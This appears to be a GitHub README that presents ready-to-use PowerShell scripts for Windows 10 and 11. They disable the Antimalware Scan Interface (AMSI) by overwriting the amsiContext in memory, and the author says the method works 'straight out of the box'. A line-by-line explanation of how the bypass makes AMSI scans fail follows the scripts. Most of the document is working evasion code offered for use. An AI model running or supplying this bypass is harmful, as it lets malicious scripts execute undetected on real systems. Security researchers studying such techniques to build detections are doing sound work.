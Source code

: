 # AMSI-Bypass-Win10-11
Simple script to bypass AMSI on Win 10 and Win 11 by exploiting AmsiOpenSession.
While the very well known AmsiScanBuffer in memory patching technique takes some tweeking and obfuscation to work, this method (at time of writing) works straight out of the box.
Lots of people to thank for all the tech info so a full write up with screenshots\references\blog posts is in the works.

<b>Win 10 Version</b>

```
$a=[Ref].Assembly.GetTypes();
Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};
$d=$c.GetFields(‘NonPublic,Static’);
Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};
$g=$f.GetValue($null);
[IntPtr]$ptr=$g;
[Int32[]]$buf = @(0);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```      

<b>Win 11 Version</b>
```
$a=[Ref].Assembly.GetTypes();
Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};
$d=$c.GetFields(‘NonPublic,Static’);
Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};
$g=$f.GetValue($null);
$buf = New-Object byte[](8);
$ptr= [System.IntPtr]::Add([System.IntPtr]$g, 0x8);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```
# Whats actually happening here? (Win10 Version)
AmsioOpenSession compares the first 4 bytes of amsiContext to the HEX value equivalent of 'AMSI'. If this operation fails it jumps to the code block 
```mov eax, 80070057h``` 
\
80070057h = E_INVALIDARG
\
This bypasses all scans while that PowerShell process is running.
 
## Explaination of Code

Retrieve all the types from the currently executing assembly
```
$a=[Ref].Assembly.GetTypes();
```
(Look for amsiUtils) Iterate over each type in $a. If the type's name matches the pattern *iUtils assign that type to the variable $c
```
Foreach($b in $a) {if ($b.Name -like “*iUtils”) {$c=$b}};
```
Get all non-public static fields of the type stored in $c and assigns them to $d    
```
$d=$c.GetFields(‘NonPublic,Static’);
```
(Look for amsiContext) Iterate over each field in $d. If the field's name matches the pattern *Context assign that field to the variable $f
```
Foreach($e in $d) {if ($e.Name -like “*Context”) {$f=$e}};
```
Retrieves the value of the static field stored in $f     
```
$g=$f.GetValue($null);
```
Cast the value of $g to an IntPtr type and assign it to $ptr 
```
[IntPtr]$ptr=$g;
```
Create an array of integers with a single element 0 and assigns it to $buf 
 ```
[Int32[]]$buf = @(0);
```
Copy the value 0 from the array $buf to the memory location pointed to by $ptr  
```
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```      


